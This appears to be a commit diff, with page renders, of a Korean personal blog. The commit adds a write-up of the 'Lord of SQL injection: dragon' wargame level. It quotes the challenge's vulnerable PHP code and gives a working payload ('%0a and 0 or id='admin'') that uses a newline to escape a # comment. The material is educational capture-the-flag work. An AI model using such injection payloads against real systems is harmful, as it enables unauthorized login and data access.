

Before and after one commit to Jminis/Jminis.github.io, a Jekyll site: the page built from docs/P4C/Day56.md, in a window 1280 px wide and 1400 px high, scrolled down 8067 px. Shown: the whole window at 89% size, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
2022-06-12 3

````diff
--- a/docs/P4C/Day56.md
+++ b/docs/P4C/Day56.md
@@ -72,8 +72,9 @@ id=%00&pw=+--1 ro
 
 `strrev` 덕분에 좀 더 머리를 써야했다.
 
+<br><br><br>
 
-<br><br><br>
+-----
 
 # > Lord of Sql injection: nightmare
 
@@ -251,3 +254,55 @@ sqld 자격증 공부 당시 익혀둔 개념으로 `SELECT`와 같은 구문의
 또한 신기하게도 서브 쿼리에서는 `FROM` 절을 사용하지 않아도 메인 쿼리의 테이블로부터 결과값을 가져올 수 있었다.{: .text-red-000}
 
 ![image-20220612183419171](../img/image-20220612183419171.png)
+
+<br><br><br>
+
+-----
+
+# > Lord of Sql injection: dragon
+
+## 삽질
+
+```php
+<?php
+  include "./config.php";
+  login_chk();
+  $db = dbconnect();
+  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
+  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
+  echo "<hr>query : <strong>{$query}</strong><hr><br>";
+  $result = @mysqli_fetch_array(mysqli_query($db,$query));
+  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
+  if($result['id'] == 'admin') solve("dragon");
+  highlight_file(__FILE__);
+?>
+```
+
+![image-20220612184621862](../img/image-20220612184621862.png)
+
+이왕 켠김에 드래곤은 잡아야하지 않겠냐는 생각에 열어보았는데 많이 많이 당황했다. 아니 사용자의 입력이 주석처리되면 어쩌자는거지?
+
+![image-20220612184335384](../img/image-20220612184335384.png)
+
+직접 DB 쿼리를 날릴 때에 줄바꿈이 이루어지면 어떻게 되려나 싶은 마음에
+
+```
+pw=%0a
+```
+를 날렸더니 위 사진과 같은 결과가 나왔다. 항상 `GUEST`가 나올 줄 알았는데 이러면 도전해볼만하지 않은가?!
+
+<br>
+
+## writeup
+
+`#`과 `--+`과 같은 주석처리는 결국 기호 뒤에 있는 줄의 문자들만 가능하다. 즉, 같은 줄에만 있는 문자들만 되는 것이다. 그리하여 다음 줄에 이어지는 쿼리문을 작성한다면 의도대로 id 파라미터 값을 'admin' 으로 만들 수 있겠다.
+
+```
+%0a and 0 or id='admin
+```
+
+앞선 `id='guest'` 부분을 `and 0`을 붙혀주면서 거짓으로 만들고 뒤에 `or id='admin'`을 완성시켜 풀었다.
+
+![image-20220612185010767](../img/image-20220612185010767.png)
+
+앞선 문제보다 훨씬 쉽게 느껴졌고 아마도 이전 DB 구축 시 직접 명령어를 쳐본 경험이 도움이 됬다.
````
Also changed, not shown: other parts of docs/P4C/Day56.md (+3 -1 lines), docs/P4C/8week.md (+4 -4 lines), docs/P4C/img/image-20220612184335384.png (added), docs/P4C/img/image-20220612184621862.png (added), docs/P4C/img/image-20220612185010767.png (added).
